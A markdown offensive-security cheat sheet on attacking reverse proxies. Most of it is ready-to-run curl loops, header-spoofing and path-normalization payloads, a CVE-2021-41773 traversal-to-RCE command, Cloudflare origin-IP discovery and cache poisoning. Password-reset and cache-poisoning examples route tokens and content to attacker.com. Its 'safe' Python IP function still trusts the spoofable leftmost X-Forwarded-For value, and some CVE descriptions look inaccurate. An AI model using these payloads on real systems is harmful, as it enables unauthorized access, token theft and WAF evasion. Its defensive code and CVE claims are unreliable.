


# 🔀 Reverse Proxies — Architecture, Attacks & Bypass Techniques

> **Key Insight:** Reverse proxies introduce a critical gap — the proxy and backend often disagree on what a request means. That disagreement is exploitable.

---

## 📚 Table of Contents

1. [What Are Reverse Proxies?](#what-are-reverse-proxies)
2. [Traffic Routing Mechanisms](#traffic-routing-mechanisms)
3. [Security-Relevant Headers](#security-relevant-headers)
4. [IP Restriction Bypass via Header Injection](#ip-restriction-bypass-via-header-injection)
5. [Path Normalization Attacks](#path-normalization-attacks)
6. [SSRF via Reverse Proxy](#ssrf-via-reverse-proxy)
7. [Cloudflare Bypass: Finding Origin IP](#cloudflare-bypass-finding-origin-ip)
8. [Cache Poisoning via Unkeyed Proxy Headers](#cache-poisoning-via-unkeyed-proxy-headers)
9. [Real Attack Examples](#real-attack-examples)
10. [Tools & Commands](#tools--commands)

---

## 🧠 What Are Reverse Proxies?

A reverse proxy sits **in front of backend servers**, accepting client connections and forwarding them. From the client's perspective, it looks like the real server.



### Common Reverse Proxies

| Software | Common Use | Notes |
|----------|-----------|-------|
| **Nginx** | Web server + proxy | Most common; location blocks |
| **Apache mod_proxy** | Legacy enterprise | RewriteRule complexity |
| **HAProxy** | High-performance LB | ACL-based routing |
| **Cloudflare** | CDN + WAF | Edge network; hides origin |
| **AWS ALB/NLB** | Cloud load balancing | Integrates with AWS WAF |
| **Traefik** | Container-native | K8s ingress controller |
| **Caddy** | Modern auto-HTTPS | Growing in popularity |

### Why They Matter to Attackers

```
Client → [Proxy: applies WAF rules, IP checks] → [Backend: trusts proxy]
                                                          ↑
                            If you can bypass proxy OR manipulate what proxy sends,
                            backend is exposed without protection
```

---

## 🔀 Traffic Routing Mechanisms

### Virtual Host Routing

```nginx
# Nginx virtual host config
server {
    listen 80;
    server_name app1.company.com;
    location / {
        proxy_pass http://app1-backend:8080;
    }
}

server {
    listen 80;
    server_name app2.company.com;
    location / {
        proxy_pass http://app2-backend:8081;
    }
}
```

**Attack:** Host header manipulation routes request to wrong backend.

```bash
# Normal request
curl https://app1.company.com/profile

# Host header attack: route to app2's backend via app1's URL
curl https://app1.company.com/profile -H "Host: app2.company.com"
```

### Path-Based Routing

```nginx
# Path-based routing
location /api/ {
    proxy_pass http://api-backend:8080;
}
location /admin/ {
    proxy_pass http://admin-backend:8081;
    allow 10.0.0.0/8;
    deny all;
}
location / {
    proxy_pass http://frontend:3000;
}
```

**Attack:** Path normalization bypass (see section 5).

---

## 📋 Security-Relevant Headers

### X-Forwarded-For

```
Client(1.2.3.4) → Proxy(10.0.0.1) → Backend

Backend receives:
X-Forwarded-For: 1.2.3.4, 10.0.0.1
                 ↑ Client IP (can be spoofed!)
                              ↑ Proxy IP (trusted)
```

**How it's abused:**

```bash
# If backend trusts X-Forwarded-For for IP allowlisting:
curl https://target.com/admin \
  -H "X-Forwarded-For: 127.0.0.1"
# Backend sees 127.0.0.1 as "client IP" → grants access

# Chained spoofing
curl https://target.com/admin \
  -H "X-Forwarded-For: 127.0.0.1, 192.168.1.1, 10.0.0.1"
# App may use first value → 127.0.0.1
```

### X-Real-IP

Single-value header set by Nginx:

```nginx
proxy_set_header X-Real-IP $remote_addr;
```

**Attack:** Same as XFF — if app uses `X-Real-IP` without checking if proxy set it:

```bash
curl https://target.com/admin -H "X-Real-IP: 127.0.0.1"
```

### X-Forwarded-Proto

Indicates original protocol (HTTP or HTTPS):

```bash
# App logic: "if X-Forwarded-Proto != https, redirect to HTTPS"
# Attack: bypass HTTPS enforcement
curl http://target.com/secure-endpoint \
  -H "X-Forwarded-Proto: https"
# App thinks request came in via HTTPS → skips redirect
```

### X-Original-URL and X-Rewrite-URL

These headers can override the URL that the application sees:

```bash
# Nginx/IIS read these headers and rewrite the request path
# Access control is based on proxied path, but app uses header value

# Bypass /admin protection:
curl https://target.com/ \
  -H "X-Original-URL: /admin/dashboard"

curl https://target.com/ \
  -H "X-Rewrite-URL: /admin/users"
```

**Real example — Spring Boot + Nginx:**

```bash
# Nginx denies /admin:
location /admin {
    deny all;
}

# But app reads X-Original-URL:
curl https://target.com/public \
  -H "X-Original-URL: /admin/secret"
# Nginx allows /public → Backend processes /admin/secret
```

**CVE-2021-21985** — VMware vCenter: `X-Forwarded-For` bypass for unauthenticated RCE.

### Host Header

```bash
# The Host header controls:
# 1. Which virtual host handles the request
# 2. URL generation (password reset links, redirects)
# 3. Cache keys (sometimes)

# Host header injection for password reset poisoning:
POST /forgot-password HTTP/1.1
Host: attacker.com

email=victim@target.com

# Server generates: "Reset your password: https://attacker.com/reset?token=SECRET"
# Victim clicks → attacker receives token
```

---

## 🔴 IP Restriction Bypass via Header Injection

### The Vulnerability Pattern

```python
# Vulnerable Python/Flask code
def get_client_ip():
    # Trusts any X-Forwarded-For header
    return request.headers.get('X-Forwarded-For', request.remote_addr)

@app.route('/admin')
def admin():
    ip = get_client_ip()
    if ip not in ALLOWED_IPS:  # ['127.0.0.1', '10.0.0.0/8']
        abort(403)
    return admin_panel()
```

### Full Bypass Payload Set

```bash
# Method 1: Basic spoofing
curl https://target.com/admin -H "X-Forwarded-For: 127.0.0.1"

# Method 2: Multiple headers (app may check any one)
curl https://target.com/admin \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "X-Real-IP: 127.0.0.1" \
  -H "X-Client-IP: 127.0.0.1" \
  -H "X-Remote-IP: 127.0.0.1" \
  -H "X-Remote-Addr: 127.0.0.1" \
  -H "X-Host: 127.0.0.1" \
  -H "Forwarded: for=127.0.0.1" \
  -H "Client-IP: 127.0.0.1" \
  -H "True-Client-IP: 127.0.0.1" \
  -H "CF-Connecting-IP: 127.0.0.1"

# Method 3: Internal network range
curl https://target.com/admin -H "X-Forwarded-For: 10.0.0.1"
curl https://target.com/admin -H "X-Forwarded-For: 192.168.1.1"
curl https://target.com/admin -H "X-Forwarded-For: 172.16.0.1"

# Method 4: Chained proxy spoofing
curl https://target.com/admin -H "X-Forwarded-For: 127.0.0.1, 1.2.3.4"
# If app takes last vs first value
curl https://target.com/admin -H "X-Forwarded-For: 1.2.3.4, 127.0.0.1"
```

### Automated with Burp Intruder

```
1. Capture request to /admin → Send to Intruder
2. Add header: X-Forwarded-For: §127.0.0.1§
3. Use payload list: [127.0.0.1, 10.0.0.1, 192.168.0.1, localhost, 0.0.0.0]
4. Look for 200 vs 403 response codes
```

### Real Exploitation Scenario

```
Target: /api/v1/internal/users (returns all user data)
Protection: Only accessible from 10.0.0.0/8 internal network

Attacker (external) sends:
GET /api/v1/internal/users HTTP/1.1
Host: api.target.com
X-Forwarded-For: 10.0.0.5

Server logic:
  ip = request.headers['X-Forwarded-For']  # → '10.0.0.5'
  if ip.startswith('10.'):                  # → True!
      return all_users()                    # ← Bypassed!
```

---

## 🔀 Path Normalization Attacks

This is one of the most powerful classes of proxy vulnerabilities. The proxy and backend **parse paths differently**.

### The Core Problem

```
Proxy:   /admin/../public  →  interprets as /public   → allows it
Backend: /admin/../public  →  does NOT normalize       → processes as /admin path
```

### Common Encoding Bypasses

```bash
# Target: /admin is blocked by proxy
# Various encodings for 'a' in 'admin':
/admin          → blocked
/%61dmin        → URL encoded 'a' → proxy doesn't recognize, backend normalizes → /admin
/admin%2f       → adds slash → path interpretation differs
/%2e%2e/admin   → ../admin → path traversal
/./admin/       → /admin (with .)
/admin/.        → /admin/ (different trailing behavior)

# Double URL encoding
/%2561dmin      → %25 = %, so backend sees %61dmin → normalizes to admin

# Unicode normalization
/ａdmin         → Unicode full-width 'a' (ａ = U+FF41)
/\admin         → Windows path separator (IIS)
/admin\         → IIS path confusion
```

### Nginx Off-By-Slash Vulnerability

**Critical config flaw:**

```nginx
# Vulnerable config:
location /api {
    proxy_pass http://backend;
}

# Attacker accesses: /api../etc/passwd
# Nginx: /api → matches, strips prefix? NO!
# Backend receives: /api../etc/passwd → may normalize to /../etc/passwd → path traversal
```

**The slash matters:**

```nginx
# Config A (VULNERABLE to path confusion):
location /static {
    alias /var/www/static;
    # Request: /static../etc/passwd
    # Becomes: /var/www/static../etc/passwd = /var/www/etc/passwd
}

# Config B (CORRECT):
location /static/ {
    alias /var/www/static/;
    # Trailing slash prevents path traversal
}
```

**CVE-2017-7529:** Nginx off-by-one in range filter — integer overflow leads to info disclosure.

**Nginx path confusion (SSRF chain):**

```bash
# Nginx config:
location /api {
    proxy_pass http://internal-backend:8080;  # No trailing slash
}

# Normal: /api/users → internal-backend:8080/api/users
# Attack: /api../internal-admin → internal-backend:8080/api../internal-admin
#         Backend normalizes → /internal-admin (bypasses proxy auth)
```

### Real CVE Examples

**CVE-2021-41773 (Apache 2.4.49 Path Traversal):**

```bash
# Normalized paths bypassed access control
curl https://target.com/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
# .%2e = URL encoded .. → path traversal to /etc/passwd

# With mod_cgi enabled → RCE:
curl --path-as-is "https://target.com/cgi-bin/.%2e/.%2e/.%2e/bin/sh" \
  --data "echo Content-Type: text/plain; echo; id"
```

**CVE-2020-10148 (SolarWinds Orion Auth Bypass):**

```bash
# Auth bypass via path normalization:
GET /api/SolarWinds/Orion/Core/Scripts/../../../Swis/Query HTTP/1.1
# Proxy saw /Scripts → authenticated
# Backend normalized → /Swis/Query → unauthenticated exec
```

### Testing Path Normalization

```bash
#!/bin/bash
TARGET="https://target.com"
PROTECTED="/admin"

PAYLOADS=(
    "/%61dmin"
    "/%2e/admin"
    "/./admin"
    "/admin/."
    "//admin"
    "/admin//"
    "/%2fadmin"
    "/admin%20"
    "/ADMIN"
    "/Admin"
    "/%61%64%6d%69%6e"
    "/admin%09"
    "/admin%23"
    "/.;/admin"
    "/x/../admin"
)

for payload in "${PAYLOADS[@]}"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" "$TARGET$payload")
    echo "$code → $payload"
done
```

---

## 🌐 SSRF via Reverse Proxy

### Internal Service Discovery

```bash
# Proxy CONNECT method (if not restricted):
curl -v --proxytunnel \
  -x https://proxy.target.com:443 \
  http://internal-service.internal:8080/api

# If proxy allows arbitrary CONNECT:
CONNECT internal-db:5432 HTTP/1.1
Host: internal-db:5432
# → Now have TCP tunnel to internal database!
```

### SSRF Through Vulnerable App Behind Proxy

```bash
# App at https://target.com/fetch?url=... has SSRF
# Proxy adds auth header to outbound requests:
# X-Internal-Auth: secrettoken

# Attacker uses SSRF to reach internal services:
curl "https://target.com/fetch?url=http://internal-api.service:8080/admin"
# Request arrives at internal-api WITH the X-Internal-Auth header added by proxy!
# → Bypasses internal service auth
```

### Proxy as SSRF Amplifier



---

## ☁️ Cloudflare Bypass: Finding Origin IP

When a site is behind Cloudflare, attacking the CDN IP is futile — you need the **origin server IP** to bypass WAF/DDoS protection.

### Technique 1: DNS History

```bash
# SecurityTrails (web UI or API):
curl "https://api.securitytrails.com/v1/history/target.com/dns/a" \
  -H "APIKEY: YOUR_KEY"
# Shows historical A records → may include IP before CDN

# ViewDNS.info: https://viewdns.info/iphistory/?domain=target.com

# PassiveTotal / RiskIQ: Historical DNS data
```

### Technique 2: Certificate Transparency Logs

```bash
# crt.sh — free, no account needed
curl -s "https://crt.sh/?q=target.com&output=json" | \
  python3 -c "
import json, sys
data = json.load(sys.stdin)
subdomains = set(entry['name_value'] for entry in data)
for s in sorted(subdomains):
    print(s)
" | tee subdomains.txt

# Now resolve all subdomains — some may bypass CDN:
cat subdomains.txt | while read sub; do
    ip=$(dig +short "$sub" 2>/dev/null | grep -v "^;")
    if [ ! -z "$ip" ]; then
        echo "$ip → $sub"
    fi
done | grep -v "104.16\|104.21\|172.67"  # Filter out Cloudflare IPs
```

### Technique 3: Shodan/Censys

```bash
# Shodan CLI
shodan search "ssl.cert.subject.cn:target.com" --fields ip_str,port,org | head -20

# Shodan web: ssl:"target.com" country:US
# Look for servers with matching SSL cert but non-CDN IPs

# Censys (API):
curl "https://search.censys.io/api/v2/hosts/search" \
  -H "Authorization: Basic BASE64(API_ID:SECRET)" \
  -d '{"q":"services.tls.certificates.leaf_data.subject.common_name:target.com"}'
```

### Technique 4: Mail/MX Records

```bash
# Mail servers often bypass CDN and point to real infrastructure
dig MX target.com
# → mail.target.com 10.20.30.40
# That IP is likely the same subnet as the web server origin

# SPF records reveal IPs:
dig TXT target.com | grep spf
# "v=spf1 ip4:10.20.30.0/24 include:sendgrid.net ~all"
#          ↑ Real IP range!
```

### Technique 5: Subdomain Enumeration

```bash
# Subdomains not behind CDN:
subfinder -d target.com -silent | tee all-subs.txt

httpx -l all-subs.txt -status-code -ip -title | \
  grep -v "104.16\|104.21\|172.67\|141.101"  # Non-Cloudflare IPs
```

### Technique 6: Wayback Machine Headers

```bash
# Old responses may contain X-Backend-Server, Server headers with internal IPs
curl -s "http://timetravel.mementoweb.org/api/json/20200101000000/https://target.com/" | \
  python3 -m json.tool | grep -i "server\|backend\|powered"

# Or check web.archive.org via API:
curl "https://archive.org/wayback/available?url=target.com&timestamp=20190101"
```

### Verifying Origin IP

```bash
# Once you have a candidate origin IP:
curl -s -o /dev/null -w "%{http_code}" \
  -H "Host: target.com" \
  http://ORIGIN_IP/

# If 200/302 with matching content → confirmed origin
# Now you can attack directly, bypassing Cloudflare WAF!

# Verify SSL cert matches:
echo | openssl s_client -connect ORIGIN_IP:443 -servername target.com 2>/dev/null | \
  openssl x509 -noout -subject -issuer
```

### Cloudflare Orange Cloud vs Grey Cloud

```
DNS Record Types:
🟠 Orange Cloud (Proxied): A/AAAA records proxied through Cloudflare
                           → Hides origin IP
                           → WAF + DDoS protection active

⚪ Grey Cloud (DNS Only):  A/AAAA records bypass Cloudflare
                           → Exposes origin IP!
                           → No WAF protection

# Mixed config is common:
# target.com → Orange (protected)
# mail.target.com → Grey (exposes same /24 as origin)
# dev.target.com → Grey (directly exposes dev server, same host!)
```

---

## ☠️ Cache Poisoning via Unkeyed Proxy Headers

When a proxy caches responses, any header it uses to build responses **but doesn't include in the cache key** is an unkeyed input — potential poison vector.

```bash
# 1. Find headers reflected in response
curl -s https://target.com/ -H "X-Forwarded-Host: canary123.com" | grep canary123
# If "canary123.com" appears in response → X-Forwarded-Host is unkeyed but reflected

# 2. Poison with malicious value
curl -s "https://target.com/?cb=$(date +%s)" \
  -H "X-Forwarded-Host: attacker.com" \
  -H "Cache-Control: no-cache"
# Response cached with attacker.com in content

# 3. Victim requests same URL → gets poisoned cache entry
```

**Detailed walkthrough in web-caches.md.**

---

## 🛠️ Tools & Commands

### Custom Header Testing with curl

```bash
# Test all IP bypass headers at once
TARGET="https://target.com/admin"
for header in \
  "X-Forwarded-For: 127.0.0.1" \
  "X-Real-IP: 127.0.0.1" \
  "X-Client-IP: 127.0.0.1" \
  "X-Remote-IP: 127.0.0.1" \
  "X-Remote-Addr: 127.0.0.1" \
  "X-Originating-IP: 127.0.0.1" \
  "X-Host: 127.0.0.1" \
  "Forwarded: for=127.0.0.1" \
  "True-Client-IP: 127.0.0.1" \
  "CF-Connecting-IP: 127.0.0.1" \
  "X-Custom-IP-Authorization: 127.0.0.1"; do
    code=$(curl -s -o /dev/null -w "%{http_code}" -H "$header" "$TARGET")
    echo "[$code] -H \"$header\""
done
```

### ffuf for Virtual Host Discovery

```bash
# Discover virtual hosts behind a reverse proxy
ffuf -u https://target.com \
  -H "Host: FUZZ.target.com" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -fs 0          # Filter by response size
  -fc 404,400    # Filter codes

# Path-based routing discovery
ffuf -u https://target.com/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -mc 200,301,302,403
```

### Burp Suite Techniques

```
1. Proxy → Options → Match and Replace:
   Add rule: Request Header | Match "" | Replace "X-Forwarded-For: 127.0.0.1"
   → All requests automatically include header

2. Repeater: Manually test header combinations

3. Intruder: Fuzz header values:
   X-Forwarded-For: §PAYLOAD§
   Payload list: 127.0.0.1, 10.0.0.1, 192.168.1.1, 0.0.0.0, localhost

4. Scanner: Active scan with custom insertion points on headers
```

---

## 🛡️ Defensive Configuration

### Nginx: Correct Header Handling

```nginx
# Strip attacker-controlled headers BEFORE proxying
server {
    # Remove any attacker-set forwarding headers
    proxy_set_header X-Forwarded-For $remote_addr;  # Overwrite with real IP
    proxy_set_header X-Real-IP $remote_addr;
    
    # Don't pass these through
    proxy_set_header X-Original-URL "";
    proxy_set_header X-Rewrite-URL "";
    
    location /admin {
        # Allowlist by real remote_addr, not X-Forwarded-For
        allow 10.0.0.0/8;
        deny all;
        proxy_pass http://backend;
    }
}
```

### Application: Safe IP Extraction

```python
def get_real_client_ip(request):
    """Only trust XFF if request comes from known proxy."""
    TRUSTED_PROXIES = ['10.0.0.1', '10.0.0.2']  # Load balancer IPs
    
    remote_addr = request.remote_addr
    
    if remote_addr not in TRUSTED_PROXIES:
        return remote_addr  # Direct connection, trust it
    
    # Request from trusted proxy — read XFF
    xff = request.headers.get('X-Forwarded-For', '')
    if xff:
        # Take the leftmost IP (true client)
        return xff.split(',')[0].strip()
    
    return remote_addr
```

---

## 📚 References

- CVE-2021-41773 — Apache path traversal/RCE
- CVE-2021-21985 — VMware vCenter X-Forwarded-For bypass
- CVE-2020-10148 — SolarWinds Orion auth bypass
- CVE-2017-7529 — Nginx off-by-one integer overflow
- [Orange Tsai: Breaking Parser Logic](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [PortSwigger: HTTP Host header attacks](https://portswigger.net/web-security/host-header)
- [HackTricks: Proxy / WAF Bypass](https://book.hacktricks.xyz/pentesting-web/hacking-with-burp-suite#403-bypass)
